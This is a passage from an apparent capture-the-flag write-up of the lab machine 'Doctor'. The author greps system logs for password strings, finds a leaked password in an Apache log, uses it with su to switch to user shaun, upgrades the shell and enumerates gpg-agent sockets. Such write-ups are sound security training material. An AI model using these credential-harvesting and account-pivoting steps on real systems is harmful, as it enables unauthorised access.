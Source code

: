 ```
web@doctor:/opt/clean$ 
```

I decide to check the logs since I have the admin group.

```
web@doctor:/var/log$ grep -r "passw" 2>/dev/null
grep -r "passw" 2>/dev/null
auth.log:Mar 23 23:22:24 doctor VGAuth[666]: vmtoolsd: Username and password successfully validated for 'root'.
auth.log:Mar 23 23:22:37 doctor VGAuth[666]: message repeated 23 times: [ vmtoolsd: Username and password successfully validated for 'root'.]
auth.log:Mar 23 23:31:46 doctor sudo: pam_unix(sudo:auth): auth could not identify password for [web]
apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
Binary file journal/62307f5876ce4bdeb1a4be33bebfb978/system@0005be3b9cbf1e4d-3c52d2a6a62e5a88.journal~ matches
Binary file journal/62307f5876ce4bdeb1a4be33bebfb978/user-1001@8612c285930942bc8295a5e5404c6fb7-000000000000d0e1-0005ae7b997ca2d8.journal matches
Binary file journal/62307f5876ce4bdeb1a4be33bebfb978/system@68325fc054024f8aac6fcf2ce991a876-000000000000cf5a-0005ae7b98c1acfe.journal matches
Binary file journal/62307f5876ce4bdeb1a4be33bebfb978/system@68325fc054024f8aac6fcf2ce991a876-0000000000003ac7-0005ab70dc697773.journal matches
Binary file journal/62307f5876ce4bdeb1a4be33bebfb978/user-1002@84e1503b20fd49eca2b6ca0b7d6fdeeb-00000000000176d6-0005af5694057aa6.journal matches
Binary file journal/62307f5876ce4bdeb1a4be33bebfb978/user-1001.journal matches
Binary file journal/62307f5876ce4bdeb1a4be33bebfb978/system@a5ad8f98908a4900ba65b279b0fc902c-0000000000000001-0005be3b9cbb6d4a.journal matches
```

2>/dev/null just removes errors here. Like permission denied.

The reset password line is interesting. Let's try to log into user shaun with that as the password.

```
web@doctor:/var/log$ su -l shaun
su -l shaun
Password: Guitar123
id
uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
```

I get a tty shell with `script /dev/null -c bash` and run lse.sh again.

```
[!] sof080 Can we write to a gpg-agent socket?............................. yes!
---
/run/user/1002/gnupg/S.gpg-agent
/run/user/1002/gnupg/S.gpg-agent.ssh
/run/user/1002/gnupg/S.gpg-agent.extra
/run/user/1002/gnupg/S.gpg-agent.browser
```

I do some googling, but don't find anything.
